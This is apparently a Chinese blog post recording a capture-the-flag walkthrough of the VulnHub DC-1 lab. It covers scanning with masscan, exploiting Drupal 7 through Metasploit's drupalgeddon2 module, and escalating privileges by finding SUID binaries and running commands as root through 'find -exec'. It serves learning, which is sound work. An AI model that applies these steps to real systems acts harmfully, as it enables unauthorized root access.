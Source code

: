 ```yaml
---
layout: post
title: 'linux提权'
subtitle: 'SUID提权'
date: 2021-06-05
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### linux SUID提权
> 1.下载环境
https://www.vulnhub.com/entry/dc-1-1,292/

用vm虚拟机打开，运行，并设置桥接
> 2.用masscan扫描与主机同一内网的80端口，查找网站地址
![](https://1024861435.github.io/assets/img/suid1.png)
发现有三个主机开启80端口，.1肯定路由器，于是用网站访问192.168.1.137发现该网站
![](https://1024861435.github.io/assets/img/suid2.png)
发现访问到该网站，得到该服务器IP地址
> 3.用kali的masscan查询该网站信息
![](https://1024861435.github.io/assets/img/suid3.png)
发现是durpal 7框架
> 4.开启msfconselo并search durpal
![](https://1024861435.github.io/assets/img/suid4.png)
使用模块exploit/unix/webapp/drupal_drupalgeddon2并执行shell
![](https://1024861435.github.io/assets/img/suid5.png)
> 5.查找符合suid条件的文件
find / -user root -perm -4000 -print 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {} \;
![](https://1024861435.github.io/assets/img/suid6.png)
> 6.如果find以SUID权限运行，所有通过find执行的命令都会以root权限运行。
touch test

find test -exec whoami \;

![](https://1024861435.github.io/assets/img/suid7.png)
> 7.用root权限访问root并得到flag文件
![](https://1024861435.github.io/assets/img/suid8.png)
      